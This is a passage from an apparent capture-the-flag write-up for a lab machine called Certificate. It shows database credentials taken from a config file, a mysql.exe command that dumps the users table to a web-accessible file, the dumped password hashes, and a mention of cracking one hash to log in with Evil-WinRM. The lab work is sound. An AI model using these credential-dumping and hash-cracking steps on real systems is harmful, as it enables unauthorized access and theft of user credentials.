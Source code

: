 | Username                | Password         |
| ----------------------- | ---------------- |
| certificate_webapp_user | cert!f!c@teDBPWD |

After locating the `mysql.exe` we concatenated the information we obtained from the `configuration file` to dump all available `hashes` of the `database` and make them accessible via the `web application`.

```cmd
C:\xampp\mysql\bin>dir
 Volume in drive C has no label.
 Volume Serial Number is 7E12-22F9

 Directory of C:\xampp\mysql\bin

12/26/2024  02:33 AM    <DIR>          .
12/26/2024  02:33 AM    <DIR>          ..
<--- CUT FOR BREVITY --->
10/30/2023  05:58 AM         3,784,616 mysql.exe
<--- CUT FOR BREVITY --->
              90 File(s)    146,340,758 bytes
               2 Dir(s)   4,494,254,080 bytes free
```

```shell
C:\xampp\mysql\bin>mysql.exe -u 'certificate_webapp_user' -p"cert!f!c@teDBPWD" -h 127.0.0.1 -D Certificate_WEBAPP_DB -e "SELECT * FROM users;" > C:\xampp\htdocs\certificate.htb\static\users_dump.txt
```

- [http://certificate.htb/static/users_dump.txt](http://certificate.htb/static/users_dump.txt)

```shell
id    first_name    last_name    username    email    password    created_at    role    is_active
1    Lorra    Armessa    Lorra.AAA    lorra.aaa@certificate.htb    $2y$04$bZs2FUjVRiFswY84CUR8ve02ymuiy0QD23XOKFuT6IM2sBbgQvEFG    2024-12-23 12:43:10    teacher    1
6    Sara    Laracrof    Sara1200    sara1200@gmail.com    $2y$04$pgTOAkSnYMQoILmL6MRXLOOfFlZUPR4lAD2kvWZj.i/dyvXNSqCkK    2024-12-23 12:47:11    teacher    1
7    John    Wood    Johney    johny009@mail.com    $2y$04$VaUEcSd6p5NnpgwnHyh8zey13zo/hL7jfQd9U.PGyEW3yqBf.IxRq    2024-12-23 13:18:18    student    1
8    Havok    Watterson    havokww    havokww@hotmail.com    $2y$04$XSXoFSfcMoS5Zp8ojTeUSOj6ENEun6oWM93mvRQgvaBufba5I5nti    2024-12-24 09:08:04    teacher    1
9    Steven    Roman    stev    steven@yahoo.com    $2y$04$6FHP.7xTHRGYRI9kRIo7deUHz0LX.vx2ixwv0cOW6TDtRGgOhRFX2    2024-12-24 12:05:05    student    1
10    Sara    Brawn    sara.b    sara.b@certificate.htb    $2y$04$CgDe/Thzw/Em/M4SkmXNbu0YdFo6uUs3nB.pzQPV.g8UdXikZNdH6    2024-12-25 21:31:26    admin    1
12    foobar    foobar    foobar    foobar@foobar.local    $2y$04$Md3Odak1aPwJy5l7unoIZeGaagzGvPYI1iX6FInNDVPe/TsamcI4m    2025-06-01 09:35:24    student    1
13    barfoo    barfoo    barfoo    barfoo@barfoo.local    $2y$04$gTRZBHpuzOgYyNkrrTAc8.P00iI838gFYpR6bBzwlxWfDovgFEGni    2025-06-01 09:37:11    teacher    0
```

### Cracking the Hash

We got a hit with the `hash` of `Sara.B` after a few seconds which enabled us to login using `Evil-WinRM`.
